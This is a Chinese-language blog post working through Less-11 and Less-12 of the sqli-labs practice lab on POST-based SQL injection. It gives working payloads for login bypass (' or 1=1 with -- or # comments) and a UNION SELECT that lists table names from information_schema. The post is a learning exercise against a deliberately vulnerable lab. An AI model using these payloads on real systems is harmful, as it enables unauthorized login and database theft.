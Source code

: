 ```yaml
---
layout: post
title: "「SQL注入入门篇」SQL注入（八）"
subtitle:   "为什么我是web安全菜鸡啊！！！"
date: 2016-11-01 12:00:00
author:     "许大仙"
tags:
    - web安全

---
```


<blockquote>
  薯片果然还是要乐事原味
</blockquote>

<h2>Less-11</h2>
刷完了Get型注入，于是我们来到了Post型注入

Post型注入的一个特点就是不会再URL栏看到任何的参数，他的数据传递是包含在HTTP报文里的，于是我们能通过Burp抓包去获取这些数据，进行注入

这时候又能祭出神器Hackbar，勾上Enable Post data，我们就能继续注入了

<h3>特点</h3>
一上来就看到了一个登陆框，啊万恶的登陆框…

将Username和Password均填入123，抓包情况如下：

<img src="http://oc42vgpoj.bkt.clouddn.com/less11_burp.png" />

登陆失败时显示的是Login Attempt Failed

<img src="http://oc42vgpoj.bkt.clouddn.com/less11_error_%2527.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less11_error_%2527.png" />

查看了一下后台的语句，发现是

<pre class="lang:tsql decode:true" title="SQL">SELECT username, password FROM users WHERE username='$uname' and password='$passwd'
LIMIT 0,1</pre>

<h3>注入检测</h3>
在用户名后面输入了一个单引号，发现报错

大概能猜出是以单引号闭合的

<h3>Payload</h3>
其实之前说的万能密码也是一个原理，都是通过合并构造恒为真的语句并且注释掉后面的语句，来实现无密码登陆

经过测试，发现了一些有趣的细节……

<pre class="lang:tsql decode:true" title="Test Payload">uname=123' or 1=1--&amp;passwd=123&amp;submit=Submit // 错误
uname=123' or 1=1 -- &amp;passwd=&amp;submit=Submit // 正确
uname=123' or 1=1 # &amp;passwd=123&amp;submit=Submit // 正确
uname=123' or 1=1 #&amp;passwd=123&amp;submit=Submit // 正确</pre>

哦？哦？看来注释和后面语句是要加个空格的对吧 = =

查询表名

<pre class="lang:tsql decode:true" title="Payload">uname=123%27 union select 1, table_name from information_schema.tables 
where table_schema=database() -- &amp;passwd=&amp;submit=Submit</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less11_table_name.png" />

后面同理了，省略。

<h2>Less-12</h2>
道理和Less-11一样，不过这次是双引号和括号闭合的

<h3>语句猜测</h3>
这个就很明确了，直接在用户名输入123"，报错如下：

<img src="http://oc42vgpoj.bkt.clouddn.com/less12_error.png" />

很明显语句应该是类似

<pre class="lang:tsql decode:true  " title="SQL">SELECT username, password FROM users WHERE username=("$uname") and 
password=("$passwd") LIMIT 0,1</pre>

<h3>Payload</h3>
不用讲了吧，闭合好就行了